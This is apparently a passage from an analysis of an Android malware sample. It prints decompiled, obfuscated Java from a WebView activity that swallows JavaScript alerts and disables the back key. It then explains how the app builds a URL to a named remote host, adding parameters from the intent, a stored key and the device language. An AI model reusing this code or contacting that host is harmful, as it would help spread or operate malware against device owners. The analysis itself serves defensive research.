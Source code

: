 ```java
        }
    }
 
    public class MyWebChromeClient extends WebChromeClient {
        @Override
        public boolean onJsAlert(WebView view, String url, String message, JsResult result) {
            return true;
        }
    }
 
    @Override
    public void onStop() {
        super.onStop();
        boolean equals = Tamarix.bedamned(getApplicationContext(), cirrofilum.effluvias("device")).equals(cirrofilum.effluvias("4"));
        String effluvias = cirrofilum.effluvias("false");
        if (equals) {
            Tamarix.Sandrakottos(getApplicationContext(), cirrofilum.effluvias("opi"), effluvias);
        }
        Tamarix.Sandrakottos(getApplicationContext(), cirrofilum.effluvias("rbt"), effluvias);
    }
 
    @Override
    public void onDestroy() {
        super.onDestroy();
    }
 
    @Override
    public boolean onKeyDown(int keyCode, KeyEvent event) {
        return false;
    }
 
    @Override
    public void onBackPressed() {
        super.onBackPressed();
    }
}

```



Analyzing the “construction” of the url will be:
Within the method wv.loadrl:



```java

wv.loadUrl(
    Tamarix.Uriiah(Tamarix.bedamned(this, "min")) + 
    "rx/f.php?f=" + str + 
    "&p=" + Tamarix.bedamned(getApplicationContext(), "ky") + 
    "|" + Locale.getDefault().getLanguage().toLowerCase()
);


```
Tamarix.Uriiah(Tamarix.bedamned(this, "min")):
Uriiah method takes a value obtained from Tamarix.bedamned(this, "min") and returns a fixed part of the URL.
So https://yukoramparata.top/zamra/aaa/
"rx/f.php?f=" + str: adds the parameters “f” with the value obtained from the intent (str).
"&p=" + Tamarix.bedamned(getApplicationContext(), "ky"): adds the parameter “p” with a value obtained from  Tamarix.bedamned.
